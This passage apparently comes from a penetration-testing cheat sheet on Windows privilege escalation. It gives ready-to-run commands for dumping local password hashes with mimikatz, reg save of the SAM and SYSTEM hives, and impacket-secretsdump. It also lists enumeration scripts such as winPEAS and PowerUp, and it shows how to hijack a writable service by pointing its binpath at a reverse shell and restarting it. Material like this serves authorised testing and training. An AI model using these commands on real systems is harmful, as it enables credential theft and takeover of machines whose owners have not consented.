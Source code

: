 ### Dumping Local Hashes

!!! info
    Requires SYSTEM privileges

```shell
.\mimikatz.exe
privilege::debug
lsadump::sam

reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save

impacket-secretsdump administrator@<target_ip>
```

## Automated Scripts

> [winPEASany.exe](https://github.com/peass-ng/PEASS-ng)

> [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

> [SharpUp.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

> [Seatbelt.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

```shell
.\winPEASany.exe

Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

## Services

### Binary Hijacking

```shell
# query running processes
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
# or in winpeas look for a service
YOU CAN MODIFY THIS SERVICE: AllAccess
File Permissions: Users [WriteData/CreateFiles]

# check permissions (F for full access)
icacls "<path>"

# replace the service binary with a reverse shell or change the binpath to it
sc config <svc_name> binpath="<rshell_path>"
sc stop <svc_name>
sc start <svc_name>
```
